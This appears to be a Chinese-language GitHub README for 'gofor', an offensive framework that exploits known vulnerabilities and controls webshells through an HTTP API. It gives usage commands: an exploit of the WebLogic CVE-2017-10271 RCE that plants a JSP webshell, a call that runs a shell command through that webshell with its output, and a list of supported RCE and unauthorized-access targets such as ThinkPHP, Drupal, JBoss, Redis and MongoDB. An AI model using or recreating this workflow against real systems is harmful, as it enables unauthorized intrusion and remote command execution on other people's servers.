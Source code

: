 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

## HTTP API Gateway
```shell
./api-srv
```

## Service Install(Optional)
**Exploit**
```
./srv-exploit
```
**Webshell**
```webshell
./srv-webshell
```
dddd
# Example
[*] CVE-2017-10271 Weblogic RCE 攻击例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://x.x.x.x:7001","cve":"CVE-2017-10271"}' http://127.0.0.1:8888/exploit/ExploitServiceExt/ExploitWithAttack
```
`{"cve":"CVE-2017-10271","tunnel":"192.168.27.129:38533/wls-wsat/ant.jsp"}`

[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://192.168.27.129:38533/wls-wsat/ant.jsp","language":"jsp","cmd":"pwd"}' http://127.0.0.1:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
`{"output":"/root/Oracle/Middleware/user_projects/domains/base_domain"}`


# 当前支持漏洞列表
| id | 漏洞名 |
|--|--|
| VUL-2021-04271  | Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability |
| VUL-2021-04272  | ThinkPHP5 5.0.23 Remote Code Execution Vulnerability |
| CVE-2017-10271  | Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞 |
| VUL-2021-05081  | Redis Unauthorized Vulnerability 漏洞 |
| CVE-2018-7600   | Drupal Drupalgeddon 2 Remote Code Execution Vulnerability |
| CVE-2017-12149  | JBoss 5.x/6.x 反序列化漏洞 |
| VUL-2021-05091  | MongoDB Unauthorized Vulnerability 漏洞 |
